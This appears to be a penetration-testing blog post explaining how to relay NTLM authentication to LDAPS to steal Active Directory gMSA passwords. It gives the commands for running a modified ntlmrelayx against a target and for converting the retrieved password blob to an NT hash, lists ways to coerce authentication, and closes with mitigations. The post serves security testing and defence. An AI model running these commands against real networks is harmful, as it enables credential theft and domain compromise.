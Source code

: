 ```yaml
---
layout: single
classes: wide
title:  "NTLM Relaying for gMSA Passwords"
---
```


## Overview
gMSA is short for group managed service accounts in Active Directory. gMSA accounts have their passwords stored in a LDAP property called msDS-ManagedPassword which automatically get resets by the DC's every 30 days, are retrievable by authorized administrators and by the servers who they are installed on. 
msDS-ManagedPassword is an encrypted data blob called [MSDS-MANAGEDPASSWORD_BLOB](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/a9019740-3d73-46ef-a9ae-3ea8eb86ac2e) and it's only retrievable when the connection is secured, LDAPS or when the authentication type is 'Sealing & Secure' for an example.

I had little to no knowledge about what gMSA was before I watched the Bloodhound 3.0 webinar hosted by Wald0 and CptJesus which described why gMSA should be in focus during a penetration test.
![bh-gMSA](../assets/img/gMSA/bh_webinar_gmsa.png)
So we know that there is often more users that are given authorized access to read gMSA passwords than there should, and that gMSA accounts often are given admin privileges and sometimes even Domain Admin. 

So how can we abuse this? How can we gather passwords for those often privileged accounts?

Since it's usally very easy to generate incoming NTLM authentications by various techniques and that the password is stored in a LDAP property, the best solution i could think of that causes the most damage possible was to integrate retrieval of the msDS-ManagedPassword LDAP property in ntlmrelayx. As you can review in my [Pull Request](https://github.com/SecureAuthCorp/impacket/pull/770).



## Relaying to LDAP
To accomplish a connection to LDAP through NTLM relaying we have to ensure that the relayed authentication is using the HTTP protocol. We can't relay SMB authentication because of the required signing bit. However, there was a vulnerability [CVE-2019-1040](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-1040) that was making it possible to bypass the NTLM signing protection and by doing so it was possible to relay SMB -> LDAP.

The NTLM relaying process:
- 1\. The victim sends an NTLM_NEGOTIATE packet to the attacker.  
- 2\. The attacker than relays the NTLM_NEGOTIATE to the target server of their choice. 
- 3\. Target server answers back with an NTLM_CHALLENGE packet to the attacker. 
- 4\. Attacker relays the NTLM_CHALLANGE packet to the victim. 
- 5\. Victim answers with a back to the attacker.
- 6\. Attacker relays the NTLM_AUTHENTICATE to the target server. 
- 7\. The attacker now has an authenticated session with the target server.
![relaying-steps](../assets/img/gMSA/relaying-steps.png)

Sadly, I had no luck in implementing 'Sealing & Secure' authentication in ntlmrelayx. For now, we have to relay to LDAPS which is just LDAP over ssl which dosen't exists on a default AD installation because there is no default available certificate.


## Configuring gMSA
```
# Create a KDS Root Key on DC
Add-KdsRootKey -EffectiveTime (Get-Date).AddHours(-10)
 
# Create a new gMSA on DC
New-ADServiceAccount -Name svc_msa -DNSHostName dc.htb.local -ManagedPasswordIntervalInDays 30 -PrincipalsAllowedToRetrieveManagedPassword msa_read,dc$

#Install gMSA on the target server
Install-WindowsFeature AD-DOMAIN-SERVICES
Install-AdServiceAccount svc_msa 
```


## Exploitation
To get started we must first generate NTLM authentication requests that we can relay, we can do that in a few different ways, for example
- ADIDNS wildcard record
- Responder 
- WPAD + Mitm6 
- Exploiting a vuln service to create a HTTP auth request (Webdav redirector installed? Use the SMB protocol)

Clone my repo, install impacket, start ntlmrelayx and pick your technique to generate NTLM authentication traffic (This aint a post about exploiting services nor network poisoning so i won't go into details about it)
```
git clone https://github.com/cube0x0/impacket
cd impacket
python setup.py install
python ./examples/ntlmrelayx.py --dump-gmsa --no-dump --no-da --no-acl --no-validate-privs -debug -t ldaps://10.0.0.5
```
![ntlmrelayx](../assets/img/gMSA/ntlmrelayx.png)
Convert the blob using the DSInternals module. The password is stored in  random unicode letters so we have to covert the plaintext password into RC4 format
```
(ConvertFrom-ADManagedPasswordBlob <blob>).SecureCurrentPassword | ConvertTo-NTHash
```
![convert](../assets/img/gMSA/convert.png)

## Mitigations
NTLM relaying to LDAP and LDAPS can be mitigated by enabling LDAP signing and LDAP channel binding. 
Permissions and group membership for service accounts can be identified by BloodHound and every organisation should have the goal to follow the least privileged model.


## Links
- [https://www.secureauth.com/blog/playing-relayed-credentials](https://www.secureauth.com/blog/playing-relayed-credentials)
- [https://docs.google.com/presentation/d/1vZ1QckmtjpBsOff85IaP1mt4fEDmWYW3ziAHVHiLd5I/edit#slide=id.g7ddaaf9066_0_66](https://docs.google.com/presentation/d/1vZ1QckmtjpBsOff85IaP1mt4fEDmWYW3ziAHVHiLd5I/edit#slide=id.g7ddaaf9066_0_66) - BH Webinar
- [https://github.com/SecureAuthCorp/impacket/pull/770](https://github.com/SecureAuthCorp/impacket/pull/770) - PR
- [https://www.dsinternals.com/en/retrieving-cleartext-gmsa-passwords-from-active-directory/](https://www.dsinternals.com/en/retrieving-cleartext-gmsa-passwords-from-active-directory/) - DSInternals